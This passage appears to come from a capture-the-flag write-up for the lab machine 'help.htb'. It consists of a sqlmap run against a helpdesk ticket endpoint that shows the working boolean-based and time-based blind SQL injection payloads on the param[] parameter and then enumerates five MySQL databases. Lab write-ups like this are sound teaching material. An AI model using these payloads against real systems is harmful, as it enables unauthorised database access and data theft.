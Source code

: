 On execute **sqlmap** :
```bash
------------------------------------------------
$ sqlmap -r ticket.req --batch --dbs --thread 10 
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.3.3#dev}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:37:53 /2025-08-27/

[14:37:53] [INFO] parsing HTTP request from 'ticket.req'
[14:37:53] [INFO] resuming back-end DBMS 'mysql' 
[14:37:53] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: param[] (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: v=view_tickets&action=ticket&param[]=8&param[]=attachment&param[]=5&param[]=10 AND 2859=2859

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: v=view_tickets&action=ticket&param[]=8&param[]=attachment&param[]=5&param[]=10 AND (SELECT 7344 FROM (SELECT(SLEEP(5)))Tifo)
---
[14:37:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[14:37:53] [INFO] fetching database names
[14:37:53] [INFO] fetching number of databases
[14:37:53] [INFO] retrieved: 5
[14:37:54] [INFO] retrieving the length of query output
[14:37:54] [INFO] retrieved: 18
[14:37:58] [INFO] retrieved: information_schema             
[14:37:58] [INFO] retrieving the length of query output
[14:37:58] [INFO] retrieved: 5
[14:38:00] [INFO] retrieved: mysql           
[14:38:00] [INFO] retrieving the length of query output
[14:38:00] [INFO] retrieved: 18
[14:38:03] [INFO] retrieved: performance_schema             
[14:38:03] [INFO] retrieving the length of query output
[14:38:03] [INFO] retrieved: 7
[14:38:06] [INFO] retrieved: support           
[14:38:06] [INFO] retrieving the length of query output
[14:38:06] [INFO] retrieved: 3
[14:38:07] [INFO] retrieved: sys           
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] support
[*] sys

[14:38:07] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/help.htb'
```